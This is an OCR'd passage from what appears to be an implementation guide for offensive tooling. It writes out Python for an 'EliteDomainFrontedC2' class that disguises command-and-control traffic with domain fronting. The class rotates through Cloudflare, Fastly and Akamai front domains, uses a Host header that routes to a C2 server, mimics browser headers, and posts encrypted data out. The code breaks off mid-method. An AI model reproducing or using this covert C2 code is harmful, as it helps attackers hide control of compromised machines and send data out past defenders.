 #### A. Domain Fronting Implementation
**File:** Create `Core/elite_connection.py`

```python
import requests
import json
import ssl
import socket
from urllib.parse import urlparse

class EliteDomainFrontedC2:
    def __init__(self):
        self.cdn_providers = {
            'cloudflare': {
                'front_domains': ['ajax.cloudflare.com', 'cdnjs.cloudflare.com'],
                'host_header': 'your-c2-domain.com',
                'path': '/static/js/jquery.min.js'
            },
            'fastly': {
                'front_domains': ['fastly.net', 'fsdn.com'],
                'host_header': 'your-c2.fastly.net',
                'path': '/assets/main.css'
            },
            'akamai': {
                'front_domains': ['akamaihd.net', 'akamai.com'],
                'host_header': 'c2.akamaized.net',
                'path': '/media/video.mp4'
            }
        }
        
        self.current_provider = None
        self.session = self._create_session()
    
    def _create_session(self):
        session = requests.Session()
        session.headers.update({
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) Chrome/118.0.0.0',
            'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
            'Accept-Language': 'en-US,en;q=0.5',
            'Accept-Encoding': 'gzip, deflate, br',
            'Connection': 'keep-alive',
            'Upgrade-Insecure-Requests': '1'
        })
        return session
    
    def connect(self, data):
        # Rotate through CDN providers
        for provider_name, config in self.cdn_providers.items():
            for front_domain in config['front_domains']:
                try:
                    response = self.session.post(
                        f"https://{front_domain}{config['path']}",
                        headers={
                            'Host': config['host_header'],  # This routes to real C2
                            'X-Request-ID': self._generate_request_id(),
                            'Cache-Control': 'no-cache'
                        },
                        data=self._encrypt_data(json.dumps(data)),
                        timeout=30,
                        verify=True  # Use CDN's valid SSL cert
                    )
                    
                    if response.status_code == 200:
                        self.current_provider = provider_name
```